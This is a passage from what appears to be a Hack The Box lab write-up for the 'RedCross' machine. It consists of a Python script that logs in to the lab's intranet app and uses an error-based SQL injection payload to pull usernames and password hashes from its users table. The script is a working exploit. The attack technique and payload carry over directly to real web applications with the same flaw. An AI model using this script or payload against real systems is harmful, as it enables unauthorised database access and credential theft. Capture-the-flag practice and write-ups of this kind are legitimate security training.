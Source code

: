 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:59:10.png)

sqli_redcross.py

```py
#!/usr/bin/python3
# Date: 2021-10-09
# Exploit Author: 0x4rt3mis
# Hack The Box - RedCross
# SQLInjection to Retrieve User Hashes

import argparse
import requests
import sys
import urllib3
import urllib

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
urllib3.disable_warnings()

'''Here come the Functions'''

# First, we need to create a user on the app, to get logged in and access the SQLInjection
def login(rhost):
    # Get the cookies
    url = "https://intra.%s.htb:443/?page=contact" %rhost
    headers = {"Referer": "https://intra.redcross.htb/?page=login"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies, verify=False)
    # Now create a login fake
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"subject": "credentials", "body": "username=0x4rt3mis", "cback": "0x4rt3mis@email.com", "action": "contact"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)
    # Now, indeed login
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"user": "guest", "pass": "guest", "action": "login"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)

# Now let's exfiltrate it
def dataExfilDump(rhost):
    limit = 0
    columns = ['username','password']
    tables = ['users']
    while limit < 30:
        for table in tables:
            for column in columns:
                print("----")
                payload = urllib.parse.quote_plus("1') AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a,(SELECT %s FROM %s LIMIT %s,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- -" %(column,table,limit))
                url = "https://intra.%s.htb:443/?o="%rhost + payload + "&page=app&page=app"
                exfil = r.get(url, cookies=r.cookies, proxies=proxies, verify=False, allow_redirects=True)
                if "Duplicate" in exfil.text:
                    index = exfil.text.find("DEBUG INFO")
                    data = exfil.text[index:index+128].split('\'')[1][:-1][1:]
                    print("[+] %s [+]!"%column)
                    print(data)
```